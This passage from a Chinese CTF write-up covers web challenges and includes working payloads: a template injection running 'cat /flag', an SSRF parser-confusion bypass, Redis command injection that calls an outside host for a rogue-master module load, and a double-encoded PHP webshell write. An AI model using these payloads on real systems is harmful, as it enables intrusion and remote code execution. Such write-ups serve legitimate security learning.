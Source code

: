 ![图片](https://uploader.shimo.im/f/RAYcevHZM3JRpkd6.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

payload：{i{cutpic:}f:111)echo `cat /flag` ;//}{end i{cutpic:}f}

进行图片裁切的方法卡在if中间即可bypass 最终payload:

# doyouknowssrf

![图片](https://uploader.shimo.im/f/W0CZMVS5CN2W2fHO.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

通读一下代码 发现是gactf ssrf原题魔改来的（离谱）

bypass parse_url 和curl的差异

[https://bugs.php.net/bug.php?id=77991](https://bugs.php.net/bug.php?id=77991)

绕过方法[http://root:root@127.0.0.1:5000@baidu.com/](http://eci-2ze4i20uld1wj0i48o5l.cloudeci1.ichunqiu.com/?url=http://root:root@127.0.0.1:5000@baidu.com/?url=http://127.0.0.1:6379?%250D%250Aauth%2520123456%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520123.56.22.0%25206667%250d%250aquit%250a1)

![图片](https://uploader.shimo.im/f/Nzj8vu8bsRMlw6TH.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

再套一层

直接考虑写shell

两次编码

![图片](https://uploader.shimo.im/f/NnwG9MRSmgdDabjk.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

?url=[http://root:root@127.0.0.1:5000@baidu.com/](http://eci-2ze4i20uld1wj0i48o5l.cloudeci1.ichunqiu.com/?url=http://root:root@127.0.0.1:5000@baidu.com/?url=http://127.0.0.1:6379?%250D%250Aauth%2520123456%250d%250aconfig%2520set%2520dbfilename%2520exp.so%250d%250aslaveof%2520123.56.22.0%25206667%250d%250aquit%250a1)?url=http://127.0.0.1:6379?%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%39%25%37%32%25%32%30%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%30%64%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30%25%30%64%25%30%61%25%37%33%25%36%35%25%37%34%25%32%30%25%37%37%25%36%35%25%36%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%32%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%36%35%25%36%33%25%36%38%25%36%66%25%32%30%25%36%30%25%36%33%25%36%31%25%37%34%25%32%30%25%32%66%25%36%36%25%36%63%25%36%31%25%36%37%25%36%30%25%33%62%25%33%66%25%33%65%25%32%32%25%30%64%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35%25%30%64%25%30%61%25%37%30%25%36%31%25%36%34%25%36%34%25%36%39%25%36%65%25%32%35%25%33%36

get flag

![图片](https://uploader.shimo.im/f/vHPf9ClytAfg7Aef.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

# profile system

目录穿越读到源码
